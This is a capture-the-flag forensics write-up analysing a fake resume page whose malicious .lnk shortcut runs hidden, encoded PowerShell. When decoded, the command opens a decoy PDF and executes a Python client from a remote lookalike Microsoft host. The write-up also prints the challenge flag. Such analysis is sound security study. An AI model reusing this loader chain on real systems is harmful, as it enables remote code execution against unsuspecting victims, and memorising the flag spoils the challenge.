

# A new Hire #
 
## Overview ##
 
Score: 975
Category: Forensics
 
## Description ##  

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness. 

## Hint ##  
- None

## Tool ##
- PEview (if you wish to change the file to .exe)

## Solution ##
Accessing the index.php:  

To fully view the content, wget the index.php:  
```bash
wget IP:PORT/index.php
```  
Viewing inside the .php we can see this:  
```
window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;  
```  
Let's try to access the endpoint:  

I began checking all the folders and tried the configs/client.py first. Inside the python file there is a base64 decoded line:  
```bash
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```  
Let's decode it:
```bash
└─$ echo "SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==" | base64 -d
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```  
And we got the flag!

## The intended way
The flag inside the configs file was so obvious. Let's return back to the endpoint that we discovered in the CV. Visiting the endpoint we have a Resume.pdf.lnk. Download it and check the metadata of the file:  
```bash
└─$ exiftool Resume.pdf\ \ \(1\).download
ExifTool Version Number         : 12.76
File Name                       : Resume.pdf  (1).download
Directory                       : .
File Size                       : 1370 bytes
File Modification Date/Time     : 2025:03:28 23:16:57+07:00
File Access Date/Time           : 2025:03:28 23:17:21+07:00
File Inode Change Date/Time     : 2025:03:28 23:16:57+07:00
File Permissions                : -rwxrwxrwx
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, WorkingDir, CommandArgs
File Attributes                 : (none)
Create Date                     : 2025:03:28 23:01:30+07:00
Access Date                     : 2025:03:28 23:01:30+07:00
Modify Date                     : 2025:03:28 23:01:30+07:00
Target File Size                : 0
Icon Index                      : (none)
Run Window                      : Show Minimized No Activate
Hot Key                         : (none)
Target File DOS Name            : cmd.exe
Working Directory               : C:\Windows\System32\
Command Line Arguments          : /c powershell.exe -W Hidden -nop -ep bypass -NoExit -E WwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJwBtAHMAZQBkAGcAZQAnACwAIAAnAGgAdAB0AHAAOgAvAC8AcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQA6ADMANAAyADgANgAvADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANAAvAHIAZQBzAHUAbQBlAHMAUwAvAHIAZQBzAHUAbQBlAF8AbwBmAGYAaQBjAGkAYQBsAC4AcABkAGYAJwApADsAXABcAHMAdABvAHIAYQBnAGUALgBtAGkAYwByAG8AcwBvAGYAdABjAGwAbwB1AGQAcwBlAHIAdgBpAGMAZQBzAC4AYwBvAG0AQAAzADQAMgA4ADYAXAAzAGYAZQAxADYAOQAwAGQAOQA1ADUAZQA4AGYAZAAyAGEAMABiADIAOAAyADUAMAAxADUANwAwAGUAMQBmADQAXABwAHkAdABoAG8AbgAzADEAMgBcAHAAeQB0AGgAbwBuAC4AZQB4AGUAIABcAFwAcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQBAADMANAAyADgANgBcADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANABcAGMAbwBuAGYAaQBnAHMAXABjAGwAaQBlAG4AdAAuAHAAeQA=
```
It's a cmd.exe and we also have the command line arguments. Let's try to decode it:  
```bash
└─$ echo "WwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJwBtAHMAZQBkAGcAZQAnACwAIAAnAGgAdAB0AHAAOgAvAC8AcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQA6ADMANAAyADgANgAvADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANAAvAHIAZQBzAHUAbQBlAHMAUwAvAHIAZQBzAHUAbQBlAF8AbwBmAGYAaQBjAGkAYQBsAC4AcABkAGYAJwApADsAXABcAHMAdABvAHIAYQBnAGUALgBtAGkAYwByAG8AcwBvAGYAdABjAGwAbwB1AGQAcwBlAHIAdgBpAGMAZQBzAC4AYwBvAG0AQAAzADQAMgA4ADYAXAAzAGYAZQAxADYAOQAwAGQAOQA1ADUAZQA4AGYAZAAyAGEAMABiADIAOAAyADUAMAAxADUANwAwAGUAMQBmADQAXABwAHkAdABoAG8AbgAzADEAMgBcAHAAeQB0AGgAbwBuAC4AZQB4AGUAIABcAFwAcwB0AG8AcgBhAGcAZQAuAG0AaQBjAHIAbwBzAG8AZgB0AGMAbABvAHUAZABzAGUAcgB2AGkAYwBlAHMALgBjAG8AbQBAADMANAAyADgANgBcADMAZgBlADEANgA5ADAAZAA5ADUANQBlADgAZgBkADIAYQAwAGIAMgA4ADIANQAwADEANQA3ADAAZQAxAGYANABcAGMAbwBuAGYAaQBnAHMAXABjAGwAaQBlAG4AdAAuAHAAeQA=" | base64 -d
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:34286/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@34286\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@34286\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```
Follow the configs endpoint and get the client.py. We should able to get the flag.  